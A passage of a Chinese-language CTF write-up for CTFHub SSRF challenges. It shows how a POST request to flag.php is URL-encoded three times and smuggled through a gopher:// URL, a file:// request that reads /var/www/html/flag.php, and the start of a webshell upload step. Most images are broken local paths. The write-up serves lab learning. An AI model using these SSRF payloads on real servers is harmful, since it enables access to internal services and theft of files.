 编码后为

![img](file:///E:\软件\qq\1641428780\Image\C2C\Image2\JU1(]%[`71W~$%3K)DNETFF.png)

在第一次编码后的数据中，将`%0A`全部替换为`%0D%0A`。因为 Gopher协议包含的请求数据包中，可能包含有`=`、`&`等特殊字符，避免与服务器解析传入的参数键值对混淆，所以对数据包进行 URL编码，这样服务端会把`%`后的字节当做普通字节。

第一次后变为

POST%20/flag.php%20HTTP/1.1%0D%0AHost:%20127.0.0.1%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0AContent-Length:%2036%0D%0A%0D%0Akey=c411440d2354dfc0a33969ec5d9b54ca

之后两次直接编码

![img](file:///E:\软件\qq\1641428780\Image\C2C\Image2\}AX47URCQ8ZU$FPOE~I6J1Z.png)

![image-20220610174546570](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220610174546570.png)

**发送请求**

> gopher协议格式：URL:gopher://<host>:<port>/<gopher-path>_后接TCP数据流
>
> ?url=127.0.0.1/index.php/?url=gopher://127.0.0.1:80/_POST包

所以输入

http://challenge-d26dcba417f0feb2.sandbox.ctfhub.com:10800/

?url=127.0.0.1/index.php/?url=gopher://127.0.0.1:80/_POST%252520/flag.php%252520HTTP/1.1%25250D%25250AHost:%252520127.0.0.1%25250D%25250AContent-Type:%252520application/x-www-form-urlencoded%25250D%25250AContent-Length:%25252036%25250D%25250A%25250D%25250Akey=c411440d2354dfc0a33969ec5d9b54ca

得到

![image-20220610174843846](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220610174843846.png)



### **上传文件

http://challenge-a3121c44ac14c19f.sandbox.ctfhub.com:10800/?url=127.0.0.1/flag.php

![image-20220610182157048](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220610182157048.png)

提示需要上传 Webshell，只有选择文件功能，并没有提交按钮。
使用`file`协议读取`flag.php`的源码

```bash
?url=file:///var/www/html/flag.php
```

<img src="C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220610182423622.png" alt="image-20220610182423622" style="zoom:80%;" />

<img src="C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220610182433905.png" alt="image-20220610182433905" style="zoom:80%;" />

发现flag.php处是一个文件上传界面，但是缺少提交按钮，修改前端页面，添加提交按钮

<img src="C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220610182638526.png" alt="image-20220610182638526" style="zoom:80%;" />
